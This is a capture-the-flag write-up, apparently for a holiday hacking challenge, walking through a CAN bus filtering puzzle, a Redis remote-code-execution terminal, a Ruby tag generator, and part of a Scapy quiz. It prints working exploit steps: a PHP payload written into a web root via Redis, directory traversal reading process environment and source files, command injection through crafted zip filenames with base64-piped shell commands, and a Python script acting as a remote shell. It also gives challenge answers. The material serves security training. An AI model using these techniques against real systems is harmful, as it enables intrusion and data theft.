  <h2 id="o07">Objective 7: Solve the Sleigh's CAN-D-BUS Problem</h2>
  <div class="terminal">
    
  </div>
  <div class="objective">
    Difficulty: 3<br>
    Jack Frost is somehow inserting malicious messages onto the sleigh's CAN-D bus. 
    We need you to exclude the malicious messages and no others to fix the sleigh. 
    isit the NetWars room on the roof and talk to Wunorse Openslae for hints.
  </div>
  <p></p>
  <div class="quote">
    <div class="name">Wunorse Openslae:</div>
    Great work! You found the code! I wonder if I can use this knowledge to work 
    out some kind of universal unlocker... ... to be used only with permission, of 
    course! Say, do you have any thoughts on what might fix Santa's sleigh? Turns 
    out: Santa's sleigh uses a variation of CAN bus that we call CAN-D bus. And 
    there's something naughty going on in that CAN-D bus. The brakes seem to shudder 
    when I put some pressure on them, and the doors are acting oddly. I'm pretty 
    sure we need to filter out naughty CAN-D-ID codes. There might even be some 
    valid IDs with invalid data bytes. For security reasons, only Santa is allowed 
    access to the sled and its CAN-D bus. I'll hit him up next time he's nearby.
  </div>
  <p>
    Oh dear, Jack has messed with Santas ride. The cockpit offers controls to lock and 
    unlock the doors, start and stop the engine, accelerate, brake and steer.
    Events on the CAN-D bus are also protocolled, but scroll past too fast 
    to be of immediate help. Finally, a filter panel permits the exclusion of 
    selected bus events.
  </p>
  <p>
    The cockpit is controlled by <a href="src/o_07/candbus.js"></a> and communicates
    with the CAN-D bus via web socket. One can observe the web socket by using 
    the browser developer tools, but it is probably simplest to take some 
    screenshots in order to identify the CAN-D-IDs appearing. To find out 
    what one ID does, all other IDs can be filtered out in the exclusion filter panel.
    Playing around a bit reveals 6 different CAN-D-IDs. Starting with the least frequent:
  </p>
  

  <h4>02A#: Ignition</h4>
  <p>
    The messages all appear legitimate
    <ul>
      <li><code>00FF00</code>: Start button pressed</li>
      <li><code>0000FF</code>: Stop button pressed</li>
    </ul>
  </p>

  <h4>19B#: Door</h4>
  <p>
    Three different messages can be observed
    <ul>
      <li><code>00000F000000</code>: Unlock button pressed</li>
      <li><code>000000000000</code>: Lock button pressed</li>
      <li><code>0000000F2057</code>: Rogue code appearing sporadically</li>
    </ul>
    This would explain why the doors are behaving oddly. The rogue
    messages should be excluded
  </p>

  <h4>019#: Steering</h4>
  <p>
    The messages appear roughly in 400 ms intervals and reflect 
    the steering slider in the cockpit. There is a very small fluctuation,
    which is to be expected in a real sleigh. The messages appear legitimate.
    <ul>
      <li><code>FFFFFFCE</code>: Steering at -50</li>
      <li><code>00000032</code>: Steering at 50</li>
    </ul>
  </p>

  <h4>080#: Brake</h4>
  <p>
    While the brake is not applied, <code>000000</code> messages appear roughly 
    every 400 ms. However, when the prake is applied, something strange happens. 
    In between the regular messages reflecting the brake setting, negative 
    values are injected. This explains the shuddering of the brakes and should 
    be filtered,
    <ul>
      <li><code>000000 - 000064</code>: Brake between 0 and 100</li>
      <li><code>FFFFF0 - FFFFFF</code>: Rogue values appearing between regular ones</li>
    </ul>
  </p>

  <h4>244#: Engine cycles (RPM)</h4>
  <p>
    As before, messages appear every 400 ms and reflect the RPM reading, 
    ranging from idling around 1000 unp to speeding in the red zone. The 
    messages all look legitimate.
    <ul>
      <li><code>0000000000</code>: Engine switched off</li>
      <li><code>00000003DE - 00000003EF</code>: Engine idling</li>
      <li><code>00000022F0 - 000000237F</code>: Santa is joyriding and wrecking his sleigh</li>
    </ul>
  </p>

  <h4>188#: ???</h4>
  <p>
    This ID remains a mystery. It comes at a 400 ms heartbeet and its value 
    never seems to change from <code>00000000</code>. Probably some 
    diagnostic; it seems safe to leave this alone
  </p>
 
  <h4>Defrosting</h4>
  <p>
    Two filter rules are enough to get all the CAN-D-bus traffic back to 
    nice:
  </p>
  <div class="answer">
    <code>
      19B Equals F2057<br>
      080 Less 00
    </code>
  </div>
  <p>
    This leaves the sleigh deFrosted, and Santa can ride again!
  </p>
  


  <h2 id="t08">Terminal 8: Redis Bug Hunt</h2>
  <div class="terminal">
    
  </div>
  <div class="quote">
    <div class="name">Holly Evergreen:</div>
    Hi, so glad to see you! I'm Holly Evergreen. I've been working with this 
    Redis-based terminal here. We're quite sure there's a bug in it, but we 
    haven't caught it yet. The maintenance port is available for curling, if 
    you'd like to investigate. Can you check the source of the index.php page 
    and look for the bug? I read something online recently about remote code 
    execution on Redis. That might help! I think I got close to RCE, but I get 
    mixed up between commas and plusses. You'll figure it out, I'm sure!
  </div>
  <div class="hint">
    &xrarr; 
    <div>
      This is kind of what we're trying to do... 
      <a href="https://book.hacktricks.xyz/pentesting/6379-pentesting-redis">Pentesting Redis</a>
    </div>
  </div>

  <h3>I) Finding index.php</h3>
  <p>
    Apparently there is a bug in <b>index.php</b>. Accessing the page via HTTP
  </p>
  <pre>
~$ <span>curl http://localhost/index.php</span>
Something is wrong with this page! Please use <mark>http://localhost/maintenance.php </mark>
to see if you can figure out what's going on. </pre>
  <p>
    doesn't help much, because we can't see any PHP content this way. We need 
    to find out where in the directory tree this file is located, and to do 
    that, we need to identify the web server in use and where 
    its <b>document root</b> is configured to be. 
  </p>
  <pre>
~$ <span>ps -ef</span>
UID        PID  PPID  C STIME TTY          TIME CMD
root         1     0  0 12:57 pts/0    00:00:00 /bin/bash /sbin/entrypoint.sh
root         6     1  0 12:57 pts/0    00:00:00 /usr/bin/<mark>redis-server</mark> 127.0.0.1:6379
root        29     1  0 12:57 ?        00:00:00 /usr/sbin/<mark>apache2</mark> -k start
www-data    33    29  0 12:57 ?        00:00:00 /usr/sbin/apache2 -k start
www-data    34    29  0 12:57 ?        00:00:00 /usr/sbin/apache2 -k start
www-data    35    29  0 12:57 ?        00:00:00 /usr/sbin/apache2 -k start
www-data    36    29  0 12:57 ?        00:00:00 /usr/sbin/apache2 -k start
www-data    37    29  0 12:57 ?        00:00:00 /usr/sbin/apache2 -k start
root        47     1  0 12:57 pts/0    00:00:00 sudo -i -u player
player      48    47  0 12:57 pts/0    00:00:00 -bash
player      53    48  0 13:02 pts/0    00:00:00 ps -ef
~$ <span>grep -i 'DocumentRoot' /etc/apache2/sites-enabled/000-default.conf</span>
        DocumentRoot <mark>/var/www/html</mark>
~$ <span>ls /var/www/html</span>
ls: cannot open directory '/var/www/html': Permission denied</pre>
  <p>
    An apache2 process is running, so that must be the web server, and 
    for Ubuntu/Debian the configuration file in which document root is 
    defined is <code>/etc/apache2/sites-enabled/000-default.conf</code>.
    It turns out that the default location is used, <b>/var/www/html</b>. Which is, 
    of course, not readable. We need to find a way to escalate privileges.
    This is where the other running process, redis-server, comes into play.
  </p>

  <h3>II) Finding the Redis CLI password</h3>
  <p>
    <a href="https://redis.io/">Redis</a> is an "open source in-memory data 
    structure store", a bit of a mouthful. It can be seen as a key-value database residing 
    in memory while operating for the sake of efficiency, which is dumped
    to file only for storage. This is vulnerable to exploitation as described in the
    "pentesting Redis" hint above, and we can try to use this method to 
    execute commands with sufficient privilege to get our dirty hands on index.php. 
    First, though, we have to gain access to Redis. The usual way is
    through the command line interface 
    <a href="https://redis.io/topics/rediscli"><code>redis-cli</code></a>,
    and by default no credentials are required. No such luck here:
  </p>
  <pre>
~$ <span>redis-cli info</span>
NOAUTH Authentication required.</pre>
  <p>
    However, as pointed out in the introduction and in index.php, 
    Redis is currently in maintenance mode, and there is a convenient 
    web-based maintenance page <b>maintenance.php</b> with preconfigured 
    access credentials. This page can run any Redis command as 
    comma seperated list:
  </p>
  <div class="framed">
    <code>
      curl http://localhost/maintenance.php?cmd=[redis command],[param 1],[param2] ... 
    </code>
  </div>
  <p>
    and therefore could be used directly to execute our exploit. 
    This is a bit cumbersome, though. A more satisfying approach is to pull the
    credentials from the configuration parameters in order to use the interactive CLI:
  </p>
  <pre>
~$ <span>curl http://localhost/maintenance.php</span>

ERROR: 'cmd' argument required (use commas to separate commands); eg:
curl http://localhost/maintenance.php?cmd=help
curl http://localhost/maintenance.php?cmd=mget,example1

~$ <span>curl http://localhost/maintenance.php?cmd=config,get,*</span>
Running: redis-cli --raw -a '&lt;password censored&gt;' 'config' 'get' '*'
dbfilename
dump.rdb
requirepass
<mark>R3disp@ss</mark>
masterauth
  ... and much more ...</pre>
  <p>
    With this password, an authenticated, interactive redis-cli session 
    can be started.
  </p>

  <h3>III) Abusing Redis to read index.php</h3>
  <p>
    Let's find out what we are dealing with and gather information 
    about the current database.
  </p>
  <pre>
~$ <span>redis-cli -a R3disp@ss</span>
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.

127.0.0.1:6379> <span>info keyspace</span>
  # Keyspace
  db0:keys=2,expires=0,avg_ttl=0
127.0.0.1:6379> <span>keys *</span>
  1) "example2"
  2) "example1"
127.0.0.1:6379> <span>mget example1 example2</span>
  1) "The site is in maintenance mode"
  2) "We think there's a bug in index.php"</pre>
  <p>
    Nothing overly interesting here at all: one database with two keys.
  </p>  
  <p>
    The <a href="https://book.hacktricks.xyz/pentesting/6379-pentesting-redis#webshell">RCE exploit</a>  
    for Redis works by changing the database dump
    directory to the document root <b>/var/www/html</b> of the web server, 
    and setting the name of the dump to <b>[something].php</b>.
    The dump file will contain binary content, but keys and their data 
    are uncompressed ASCII and therefore readable. If the dump is successful, 
    then any PHP commands injected into it will be executed <b>with web server privileges</b>
    whenever someone reads the dump file via HTTP: to the web server, it is 
    legitimate, though somewhat dirty PHP. As payload, we use 
  </p>
  <pre class="prettyprint lang-html">
&lt;?php copy('index.php', 'index.txt'); ?&gt;</pre>
  <p>
    This defuses the PHP content in the eyes of the web server. Afterwards, 
    accessing <b>index.txt</b> via curl will show the whole file rather than 
    executing it. Using the instructions from the RCE exploit:
  </p>
  <pre>
127.0.0.1:6379> <span>config set dir /var/www/html</span>
  OK
127.0.0.1:6379> <span>config set dbfilename executable_dump.php</span>
  OK
127.0.0.1:6379> <span>set test "&lt;?php copy('index.php', 'index.txt'); ?&gt;"</span>
  OK
127.0.0.1:6379> <span>save</span>
  OK
127.0.0.1:6379> <span>quit</span>

~$ <span>curl <mark>-o -</mark> http://localhost/executable_dump.php</span>
REDIS0009�      redis-ver5.0.3�
�edis-bits�@�ctime¢��_used-mem
 aof-preamble��� <mark>test</mark>(example1The site is in maintenance modeexample2#We think there's a b
ug in index.php������f 

~$ <span>curl http://localhost/index.txt</span>
&lt;?php
# We found the bug!!
#<mark class="answer">                      </mark>
#<mark class="answer">         \   /        </mark>
#<mark class="answer">         .\-/.        </mark>
#<mark class="answer">     /\ ()   ()       </mark>
#<mark class="answer">       \/~---~\.-~^-. </mark>
#<mark class="answer"> .-~^-./   |   \---.  </mark>
#<mark class="answer">      {    |    }   \ </mark>
#<mark class="answer">    .-~\   |   /~-.   </mark>
#<mark class="answer">   /    \  A  /    \  </mark>
#<mark class="answer">         \/ \/        </mark>
#<mark class="answer">                      </mark> 
echo "Something is wrong with this page! Please use http://localhost/maintenance.php to see if you can figure out what's going on"
?&gt;</pre>
  <p>
    The PHP payload was executed blindly, index.txt was created as planned,
    and in it the bug showed its hideous face. Note: the curl option <code>-o -</code> 
    was used to force output to stdout despite the binary content.
  </p>


  <h2 id="o08">Objective 8: Broken Tag Generator</h2>
  <div class="objective">
    Difficulty: 4<br>
    Help Noel Boetie fix the Tag Generator in the Wrapping Room. What value is 
    in the environment variable GREETZ? Talk to Holly Evergreen in the kitchen 
    for help with this.
  </div>
  <p></p>
  <div class="quote">
    <div class="name">Noel Boetie (as Santa):</div>
    Welcome to the Wrapping Room, Santa! The tag generator is acting 
    up. I feel like the issue has something to do with weird files 
    being uploaded. Can you help me figure out what's wrong?
    <div class="name">Holly Evergreen:</div>
    I wonder, could we figure out the 
    problem with the Tag Generator if we can get the source code? 
    Can you figure out the path to the script? I've discovered that 
    enumerating all endpoints is a really good idea to understand 
    an application's functionality. Sometimes I find the Content-Type 
    header hinders the browser more than it helps. If you find a way 
    to execute code blindly, maybe you can redirect to a file then 
    download that file?
  </div>
  <div class="hint">
    &xrarr;
    <div>
      We might be able to find the problem if we can get source code!
      Can you figure out the path to the script? It's probably on error pages!
    </div>
  </div>
  <div class="hint">
    &xrarr;
    <div>
      Once you know the path to the file, we need a way to download it!
      Is there an endpoint that will print arbitrary files? 
      If you're having trouble seeing the code, watch out for the 
      Content-Type! Your browser might be trying to help (badly)!
    </div>
  </div>
  <div class="hint">
    &xrarr;
    <div>
      I'm sure there's a vulnerability in the source somewhere... 
      surely Jack wouldn't leave their mark?
      If you find a way to execute code blindly, I bet you can redirect 
      to a file then download that file! 
      Remember, the processing happens in the background so you might 
      need to wait a bit after exploiting but before grabbing the output!
    </div>
  </div>
  <p></p>
  

  <h3>I) Directory traversal: getting the source code</h3>
  <p>
    The Tag Generator at <a href="https://tag-generator.kringlecastle.com/">https://tag-generator.kringlecastle.com/</a>
    is misbehaving and requires fixing. And the culprit is not shy: Jack Frost is all 
    over the central template (which looks kind of cute actually). What has he done 
    this time? Though not overly useful, a similar application without 
    security issues can be accessed in the Netwars room next to Chimney Scissorsticks: the
    <a href="https://greeting-cards.kringlecastle.com/">Greeting Card Generator</a>.
  </p>
  <p>
    The app functions are almost exclusively on the client side, even the save and clear 
    buttons, which can be verified by checking the JS script governing client behaviour:
    <a href="src/o_08/app.js">app.js</a>. The one notable exception is
    the <b>input file button</b> (lines 316 - 361 in app.js), which invites the user to
    select several images and then uploads them to the server via a multipart POST <b>/upload</b>
    request. If the operation is successful, it returns a list of random looking IDs or handles
    for the uploaded images. In subsequent GET <b>/image</b> requests, those IDs are passed 
    as parameters to download adapted versions of those images from the server, for inclusion
    in the tag.
  </p>
  
  <p>
    This HTTP exchange can be observed with an intercepting proxy (burp, ZAP) 
    or simply through the browser tools, but doesn't reveal much by itself. To find 
    out more and discover weak points, it is often helpful to provide unexpected or 
    unwanted input, hoping to trigger revealing error messages. For example, 
    uploading a text file instead of an image file causes the error:
  </p>
  
  <p>
    which tells us that the web application is written in <b>Ruby</b>, with 
    source at <b>/app/lib/app.rb</b>. It also shows that the directory <b>/tmp</b>
    is probably used to store uploaded image files. 
  </p>
  <p>
    Let's try to exploit this knowledge. The most likely candidate for abuse is
    the image retrival request from above, which turns out to have a <b>directory 
    traversal</b> weakness. As verification, the two requests
  </p>
  <pre>
GET https://tag-generator.kringlecastle.com/<span>image?id=</span>903012a7-fbf9-4568-8fd8-9e3335a54b41.png
GET https://tag-generator.kringlecastle.com/<span>image?id=</span><mark>../tmp/</mark>903012a7-fbf9-4568-8fd8-9e3335a54b41.png</pre>
  <p>
    both return the uploaded image. Trying to exploit this immediately from the 
    browser fails, though: The request
  </p>
  <pre>GET https://tag-generator.kringlecastle.com/<span>image?id=</span>../app/lib/app.rb</pre>
  <p>
    just results in a message stating that the image contains errors and 
    cannot be shown. The culprit is a Content header in the reply:
  </p>
  <pre>
Connection: keep-alive
Content-Length: 81
Content-Type: <mark>image/jpeg</mark>
Date: Tue, 05 Jan 2021 21:42:17 GMT
Server: nginx/1.14.2
X-Content-Type-Options: <mark>nosniff</mark></pre>
  <p>
    Content type <code>image/jpeg</code> tells the browser that the payload
    should be an image, and <code>nosniff</code> forbids it use better knowledge.
    So, the payload is there, but the browser finds it not to have correct 
    type and refuses to show it. B******d! Luckily there are the command line 
    tools curl (linux) and iwr (powershell) which are not emburdened by such moral constraints:
  </p>
  <pre>
(<span>iwr</span> https://tag-generator.kringlecastle.com//image?id=..<mark>/app/lib/app.rb</mark>).<span>RawContent</span> </pre>
  <p>
    returns the <a href="src/o_08/app.rb">web app sourece code</a> without 
    further trouble (RawContent avoids undue parsing).
  </p>

  <h3>II) Access to environment variables</h3>
  <p>
    We are supposed to look at the source now to find another exploit.
    This is certainly the more elegant, dutiful and generally nice 
    way of doing things, but also turns out to be quite hard for the 
    uninitiated (it certainly took me a long time). There is a much simpler way
    to get to the environment variables, though. 
  </p>
  <p>
    In Linux, everything is (a bit like) a file, including environment 
    variables. The <a href="https://en.wikipedia.org/wiki/Procfs">proc filesystem</a>
    is a special filesystem giving access to process related data for
    all running processes, generally readable for all. In particular, the 
    environment variables for process ID &lt;pid&gt; can be found in 
    <code>/proc/&lt;pid&gt;/environ</code>. Nice, but with the slight
    flaw that we do not know the process ID of the web server. 
    <code>/proc/self</code> comes to the rescue: it holds a symbolic 
    link to the current process (from which the request is made), i.e. 
    the web server. Accessing this with our directory traversal tool
  </p>
  <pre>
<span>(iwr https://tag-generator.kringlecastle.com//image?id=..<mark>/proc/self/environ</mark>).RawContent</span>
PATH=/usr/local/bundle/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin 
HOSTNAME=cbf2810b7573 RUBY_MAJOR=2.7 RUBY_VERSION=2.7.0
RUBY_DOWNLOAD_SHA256=27d350a52a02b53034ca0794efe518667d558f152656c2baaf08f3d0c8b02343
GEM_HOME=/usr/local/bundle BUNDLE_SILENCE_ROOT_WARNING=1 BUNDLE_APP_CONFIG=/usr/local/bundle
APP_HOME=/app PORT=4141 HOST=0.0.0.0 <mark class="answer">GREETZ=JackFrostWasHere</mark> HOME=/home/app</pre>
  <p>
    dumps the process environment variables including a friendly greeting by our hero,
    completing the objective.
  </p>

  <h3>III) Weak points in the source code: RFI</h3>
  <p>
    The direct approach of solving the challenge is fast, but a little 
    dissatisfying. There is fun to be had beyond mere environment variables. 
    The code in <a href="src/o_08/app.rb">app.rb</a> is based
    on <b><a href="http://sinatrarb.com/">Sinatra</a></b>, a simple web application 
    framework with a focus on quick and easy app creation. Unlike the 
    filename/directory  approach found in PHP-based web servers, Sinatra uses 
    <b>routes</b> to determine what is to be done with a request. All available
    routes are defined in app.rb within the module <b>TagGenerator</b>. 
    As an overview:
  </p>
  
  <p>
    Curiously, the routes /share, /save and /clear are not actually 
    used by the tag generator. 
    The directory traversal weakness exploited in part I) is caused by a 
    modification Jack made to the /image route, removing parameter filtering:
  </p>
  <pre class="prettyprint lang-rb">
get '/image' do
  if !params['id']
    raise 'ID is missing!'
  end
  # <mark>Validation is boring! --Jack</mark>
  # if params['id'] !~ /^[a-zA-Z0-9._-]+$/
  #   return 400, 'Invalid id! id may contain letters, numbers, period, underscore, and hyphen'
  # end
  content_type 'image/jpeg'
  filename = "#{ FINAL_FOLDER }/#{ params['id'] }"
  if File.exists?(filename)
    return File.read(filename)
  else
    return 404, "Image not found!"
  end
end</pre>
  <p>
    The code behind the /upload route is the most elaborate. The multipart
    data content of the POST request is passed part by part to the function 
    <b>process_file()</b>, which decides how to handle it based on the 
     filename extension:
  </p>
  <pre class="prettyprint lang-rb">
def process_file(filename)
  out_files = []
  if filename.downcase.end_with?('<mark>zip</mark>')
    # Append the list returned by <mark>handle_zip</mark>
    out_files += handle_zip(filename)
  elsif filename.downcase.end_with?('<mark>jpg</mark>') || filename.downcase.end_with?('<mark>jpeg</mark>') || filename.downcase.end_with?('<mark>png</mark>')
    # Append the name returned by <mark>handle_image</mark>
    out_files &lt;&lt; handle_image(filename)
  else
    raise "Unsupported file type: #{ filename }"
  end

  return out_files
end</pre>
  <p>
    In addition to the image formats jpeg, jpg and png, it turns out that 
    <b>zip files</b> are supported. Any other filetype causes the whole 
    upload to abort. Jack has been active again in the zip file handler:
  </p>
  <pre class="prettyprint lang-rb">
def handle_zip(filename)
  LOGGER.debug("Processing #{ filename } as a zip")
  out_files = []
  Zip::File.open(filename) do |zip_file|
    # Handle entries one by one
    zip_file.each do |entry|
      LOGGER.debug("Extracting #{entry.name}")
      if entry.size > MAX_SIZE
        raise 'File too large when extracted'
      end
      if entry.name().end_with?('zip')
        raise 'Nested zip files are not supported!'
      end

      # <mark>I wonder what this will do? --Jack</mark>
      # if entry.name !~ /^[a-zA-Z0-9._-]+$/
      #   raise 'Invalid filename! Filenames may contain letters, numbers, period, underscore, and hyphen'
      # end

      # We want to extract into TMP_FOLDER
      out_file = "#{ TMP_FOLDER }/#{ entry.name }"

      # Extract to file or directory <mark>based on name in the archive</mark>
      entry.extract(out_file) {
        # If the file exists, simply overwrite
        true
      }
      # Process it
      out_files &lt;&lt; process_file(out_file)
    end
  end
  return out_files
end</pre>
  <p>
    This is interesting. Jack's modification removed filename validation within 
    the zip archive, and the archive contents are extracted to <code>/tmp</code> based 
    on their names! If those names contain backslashes, directories can be
    traversed again. We have a <b>remote file inclusion</b> weakness permitting
    arbitrary files to be written anywhere ... as long as we have write 
    permission. Which is a pity, because it turns out we don't. as far as I 
    could tell, no outside of /tmp are writable with the privileges we have. 
    In particular, the web application space <code>/app/lib</code> and below is
    protected, which is probably a good thing, but means that no havoc 
    can be wreaked by, for example, overwriting templates. A nice start, but 
    no solution yet.
  </p>

  <h3>IV) Remote code execution</h3>
  <p>
    The third, crucial weakness enabling remote code execution is hidden 
    within the image handler called from process_file(). <b>Many thanks to joergen</b> 
    for removing my blind spot here!! A system call is made to invoke <b>convert</b>,
    which is part of the <a href="https://imagemagick.org/">ImageMagick</a> package
    and which is used here to resize the image and adapt its compression level.
    One of its arguments is the unfiltered filename ... a recipe for disaster.
  </p>
  <pre class="prettyprint lang-rb">
def handle_image(filename)
  out_filename = "#{ SecureRandom.uuid }#{File.extname(filename).downcase}"
  out_path = "#{ FINAL_FOLDER }/#{ out_filename }"

  # Resize and compress in the background
  Thread.new do
    if !<mark>system</mark>("convert -resize 800x600\\> -quality 75 '#{ <mark>filename</mark> }' '#{ out_path }'")
      LOGGER.error("Something went wrong with file conversion: #{ filename }")
    else
      LOGGER.debug("File successfully converted: #{ filename }")
    end
  end
  # Return just the filename - we can figure that out later
  return out_filename
end </pre>
  <p>
    To exploit this, we need filename to close the open quote and then chain whichever 
    shell command we need executed. A hash follows to make the rest of the line 
    look like a comment. In particular, the hanging closing quote is not seen by the 
    shell, avoiding a nasty error. As a useful example,
  </p>
  <pre>filename = <span>';ls -l &gt;kuraout 2&gt;&amp;1 #png</span></pre>
  <p>
    causes a listing of the current directory (<code>/tmp</code>) to be written to the file 
    <code>/tmp/kuraout</code>, which can then be read using the directory traversal exploit
    from part I) and which turns out to be quite the message board. For good 
    measure, the error output is redirected to the same output file.
  </p>
  <p>
    Some of the characters in the filename cause problems when trying to upload: depending 
    on the client operating system, they may be illegal, and they may be escaped when 
    the POST request is built. Both issues can be avoided  by using a zip archive as 
    container: filenames can be edited within the archive and are not checked for being 
    legal there. To get our hands on the environment variables, we therefore need to:
    <ol>
      <li>Create a ZIP archive containing one dummy entry</li>
      <li>rename this dummy entry to <mark class="answer"><code>';env &gt;kuraout 2&gt;&amp;1 #png</code></mark></li>
      <li>upload this ZIP archive to the server with the file selection button</li>
      <li>
        read the output file using e.g. <br>
        <mark class="answer"><code>(iwr "https://tag-generator.kringlecastle.com/image?id=kuraout").RawContent</code></mark>
      </li>
    </ol>
  </p>

  <h3>V) Odds and ends</h3>
  <p>
    The method above permits the execution of any code, provided there are no 
    backslashes in it. The reason for this restriction is handle_zip(), which
    attempts to write to the filename carrying the exploit. Backslashes imply 
    subdirectories, and if these don't exist, an exception is caused. A way 
    around is to encode the offending command in base64. For example,
    <code>ls -l /app/lib</code> encodes to <code>bHMgLWwgL2FwcC9saWI=</code>,
    and 
  </p>
  <pre>filename = <span>';echo bHMgLWwgL2FwcC9saWIvcHVibGlj | base64 -d | sh >kuraout 2>&1 #png</span></pre>
  <p>
    shows the contents of <code>/app/lib</code>. 
  </p>
  <p>
    Another issue might be the convert command
    in handle_image(), which is left incomplete and fails with the exploit, leaving 
    an irritating error log. A more stealthy approach would be to include two 
    files in the zip archive: a real immage, followed by a dummy carrying an extended exploit.
  </p>
  
  <p>
    No errors are generated, and the image download also works as it should.  
  </p>
  <p>
    Finally, here is a little <a href="src/o_08/tag_abuser.py">script</a> to take the pain out of the RCE exploit.
    The script acts a bit like a shell: it waits for the input of commands and 
    feeds them through the RCE process, printing the result, until "exit" is 
    encountered. It also keeps track of current directory by using a secondary 
    output file <code>kurapwd</code>. 
  </p>
  <pre class="prettyprint lang-py">
#!/usr/bin/env python3
import requests
from zipfile import ZipFile
from io import BytesIO
import base64

def make_payload(exploit):
    # create a zip file containing a dummy file with the exploit as filename
    mypayload = BytesIO()
    with ZipFile(mypayload, 'w') as zf:
        file_name = exploit
        zf.writestr(file_name, 'I am a dummy')
    mypayload.seek(0)   # reset byte stream to position 0
    return mypayload

url = "https://tag-generator.kringlecastle.com"
current_dir = "/tmp"

while True:
    # wait for input, showing current directory
    line = input(f"{current_dir}$ ").strip()
    if line.lower() == 'exit':
        break

    # base64 encode command to hide . and /
    b64 = base64.b64encode(f"cd {current_dir}; {line} >/tmp/kuraout 2&gt;&amp;1; pwd &gt;/tmp/kurapwd".encode()).decode()
    payload = make_payload(f"';echo {b64} | base64 -d | sh #png")

    # generate the POST request carrying the payload
    requests.post(url + "/upload", files={'my_file[]': ("innocent.zip", payload)})

    # get the output through directory traversal exploit
    get_resp = requests.get(url + "/image?id=kuraout")
    print(get_resp.text)

    # retrieve the new current directory
    pwd_resp = requests.get(url + "/image?id=kurapwd")
    current_dir = pwd_resp.text.strip()</pre>


  <h2 id="t09">Terminal 9: ScaPy Packet Prepper</h2>

  <div class="terminal">
    
  </div>
  <div class="quote">
    <div class="name">Alabaster Snowball:</div>
    Welcome to the roof! Alabaster Snowball here. I'm watching some elves 
    play NetWars! Feel free to try out our Scapy Present Packet Prepper! 
    If you get stuck, you can help() to see how to get tasks and hints.
  </div>
  <p>
    <b>scapy</b> is a packet manipulation tool in python, able to forge and decode packets, 
    send them on the wire, capture them, and match requests and replies. It can also 
    handle tasks such as scanning, tracerouting, probing, unit tests, attacks, and 
    network discovery. This prepper introduces scapy through a series of questions
    in a controlled python command line environment which is already set up for scapy. 
    Some useful resources:
  </p>
  <div class="hint">
    &xrarr; 
    <div>
      Functions and classes to
      <a href="https://scapy.readthedocs.io/en/latest/api/scapy.sendrecv.html">send, receive or sniff</a>
      packets.
    </div>
  </div>
  <div class="hint">
    &xrarr; 
    <div>
      Scapy <a href="https://scapy.readthedocs.io/en/latest/api/scapy.utils.html">utilities</a>
    </div>
  </div>
  <div class="hint">
    &xrarr; 
    <div>
      <a href="https://0xbharath.github.io/art-of-packet-crafting-with-scapy/scapy/creating_packets/index.html">Creating packets</a>
      with scapy
    </div>
  </div>

  <p>
    Below a protocol of the questions from the prepper and the answers required to 
    pass the challenge:
  </p>
  <ol>
    <li>
      Start by running the <code>task.submit()</code> function passing in 
      a string argument of 'start'.
      <div class="answer">task.submit(<b>"start"</b>)</div>
    </li>
    <li>
      Submit the class object of the scapy module that sends packets at 
      <b>layer 3</b> of the OSI model.
      <div class="answer">task.submit(<b>send</b>)</div>
      <i>Note:</i>  The <code>sendp</code> scapy class is used to send packets at
      <b>layer 2</b> of the OSI model.
    </li>
    <li>
      Submit the class object of the scapy module that sniffs network 
      packets and returns those packets in a list.
      <div class="answer">task.submit(<b>sniff</b>)</div>
      <i>Note:</i> Here is a thorough explanation of 
      <a href="https://scapy.readthedocs.io/en/latest/usage.html#advanced-sniffing-sniffing-sessions">sniffing session</a>
    </li>
    <li>
      Submit the choice that would successfully send a TCP packet and 
      then return the first sniffed response packet to be stored in a variable named "pkt":
      <ol>
        <li><code>sr1(IP(dst="127.0.0.1")/TCP(dport=20))</code></li>
        <li><code>sniff(IP(dst="127.0.0.1")/TCP(dport=20))</code></li>
        <li><code>sendp(IP(dst="127.0.0.1")/TCP(dport=20))</code></li>
      </ol>
      <div class="answer">task.submit(<b>1</b>)</div>
    </li>
    <li>
      Submit the class object of the scapy module that can read <b>pcap</b> or <b>pcapng</b> 
      files and return a list of packets.
      <div class="answer">task.submit(<b>rdpcap</b>)</div>
      <i>Note:</i> <code>rdpcap</code> is part of the scapy <a href="https://scapy.readthedocs.io/en/latest/api/scapy.utils.html">utilities</a>
    </li>
    <li>
      The variable UDP_PACKETS contains a list of UDP packets. Submit the choice 
      that correctly prints a <b>summary</b> of UDP_PACKETS:
      <ol>
        <li><code>UDP_PACKETS.print()</code></li>
        <li><code>UDP_PACKETS.show()</code></li>
        <li><code>UDP_PACKETS.list()</code></li>
      </ol>
      <div class="answer">task.submit(<b>2</b>)</div>
      <i>Note:</i> This variable actually exists, so the different choices can be tried out in the prepper.
      <code>.show()</code> can be used on lists of packets AND on an individual packet.
    </li>
    <li>
      Submit only the first packet found in UDP_PACKETS.
      <div class="answer">task.submit(<b>UDP_PACKETS[0]</b>)</div>
    </li>
    <li>
      Submit only the entire <b>TCP layer</b> of the second packet in TCP_PACKETS.
      <div class="answer">task.submit(<b>TCP_PACKETS[1][TCP]</b>)</div>
      <i>Note:</i> Substructures of packets can be accessed just like cascaded dictionaries
    </li>
    <li>
      Change the <b>source IP address</b> of the first packet found in UDP_PACKETS 
      to 127.0.0.1 and then submit this modified packet
      <pre class="prettyprint lang-javascript">
pkt = UDP_PACKETS[0] 
pkt[IP].src = '127.0.0.1'</pre>
      <div class="answer">task.submit(<b>pkt</b>)</div>
    </li>
    <li>
      Submit the <b>password</b> of the user alabaster as found in the packet 
      list TCP_PACKETS.
      <pre class="prettyprint lang-javascript">
[pkt[Raw].load for pkt in TCP_PACKETS if Raw in pkt]
     [b'220 North Pole FTP Server\r\n',
      b'USER alabaster\r',
      b'331 Password required for alabaster.\r',
      b'PASS echo\r\n',
      b'230 User alabaster logged in.\r']</pre>
      <div class="answer">task.submit(<b>'echo'</b>)</div>
    <i>Note:</i> See packet list summary with <code>TCP_PACKETS.show()</code>
    </li>
    <li>
      The ICMP_PACKETS variable contains a packet list of several icmp echo-request and icmp 
      echo-reply packets. Submit only the ICMP chksum value from the second packet in the 
      ICMP_PACKETS list.
      <div class="answer">task.submit(<b>ICMP_PACKETS[1][ICMP].chksum</b>)</div>
    </li>
    <li>
      Submit the choice that would correctly create a ICMP echo request 
      packet with a destination IP of 127.0.0.1 stored in the variable named "pkt"
      <ol>
        <li><code>pkt = Ether(src='127.0.0.1')/ICMP(type="echo-request")</code></li>
